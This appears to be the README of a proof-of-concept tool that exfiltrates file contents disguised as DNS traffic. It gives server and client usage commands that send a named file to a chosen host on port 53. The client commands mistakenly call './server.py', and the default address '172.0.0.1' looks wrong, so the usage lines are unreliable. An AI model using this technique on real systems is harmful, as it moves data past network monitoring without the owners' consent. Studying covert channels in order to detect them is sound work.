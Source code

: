 # About

This repository contains a proof of work for extracting file-content via (what looks like) DNS.
The *client* takes a file and sends it's content to the *server*.

Upon receiving a payload, the server will display it's content and save it to a file.

# Usage

## Server

`./server.py [HOST [PORT]]`

default: 172.0.0.1:53

e.g.: 

`./server.py`: Start server on 172.0.0.1:53

`./server.py 0.0.0.0`: Start server on 0.0.0.0:53

`./server.py 192.168.0.100 4000`: Start server on 192.168.0.100:4000


**Note**: When running on low ports (like 53), root privileges are required.

## Client

`./server.py FILE [HOST [PORT]]`

default: 172.0.0.1:53

e.g.: 

`./server.py robotergesetz.txt`: Send content of robotergesetz.txt to 172.0.0.1:53

`./server.py robotergesetz.txt 0.0.0.0`: Send content of robotergesetz.txt to 0.0.0.0:53

`./server.py robotergesetz.txt 192.168.0.100 4000`: Send content of robotergesetz.txt to 192.168.0.100:4000

